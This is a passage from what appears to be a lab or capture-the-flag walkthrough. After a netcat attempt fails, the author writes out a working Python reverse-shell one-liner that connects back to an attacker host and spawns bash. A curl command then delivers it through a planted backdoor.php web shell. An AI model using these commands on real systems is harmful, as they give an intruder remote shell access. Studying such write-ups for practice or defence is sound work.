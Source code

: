 ![](./pics/44.png)

Now, let's create a reverse shell so I can explore more easily.

![](./pics/45.png)

As you can see, while attempting this, we encountered a problem: there's no *-e* option.

Since this method isn't working, I found a website that Offers various ways to obtain a reverse shell

`https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/`

I decided to use Python

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.100.8\",2000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'
```

```sh
curl "https://192.168.100.16/forum/templates_c/backdoor.php" --insecure  --data-urlencode  "cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.100.8\",2000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);' "
```
